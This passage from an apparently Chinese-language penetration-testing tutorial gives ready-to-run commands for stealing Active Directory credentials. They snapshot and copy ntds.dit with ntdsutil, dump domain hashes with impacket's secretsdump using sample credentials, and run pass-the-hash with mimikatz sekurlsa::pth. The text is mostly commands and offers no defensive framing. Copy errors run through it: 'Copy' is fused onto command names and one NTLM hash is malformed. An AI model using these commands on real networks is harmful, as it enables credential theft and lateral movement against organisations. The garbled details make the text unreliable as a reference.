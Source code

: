 ```powershell
#创建快照
ntdsutil snapshot "activate instance ntds" create quit quit

#加载快照
ntdsutil snapshot "mount {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit

#文件副本
copy C:\$SNAP_201911211122_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit
```

将ntds.dit文件拷贝到本地利用impacket脚本dump出Hash：

```sql
Copysecretsdump.py -ntds.dit -system system.hive LOCAL
```

最后记得卸载删除快照：

```bash
ntdsutil snapshot "unmount {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit
ntdsutil snapshot "delete  {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit
```



#### secretsdump脚本直接导出域hash

> 可以直接导出，说白了，简单粗暴：

```perl
Copypython secretsdump.py rabbitmask:123456@192.168.15.181
```

首先它会导出本地SAM中的hash，然后是所有域内用户的IP，全部获取成功





### 哈希传递攻击(PTH)

#### 工作组环境

当我们获得了一台主机的NTLM哈希值，我们可以使用mimikatz对其进行哈希传递攻击。执行完命令后，会弹出cmd窗口。

```bash
#使用administrator用户的NTLM哈希值进行攻击
sekurlsa::pth /user:administrator /domain:192.168.10.15 /ntlm:329153f560eb329c0e1deea55e88a1e9
```

```bash
#使用test用户的NTLM哈希值进行攻击
sekurlsa::pth /user:test /domain:192.168.10.15 /ntlm:329153f560eal81eea55e66a1e8
```

在弹出的cmd窗口，我们直接可以连接该主机，并且查看该主机下的文件夹。

> 注：只能在 mimikatz 弹出的 cmd 窗口才可以执行这些操作，注入成功后，可以使用psexec、wmic、wmiexec等实现远程执行命令。



#### 域环境
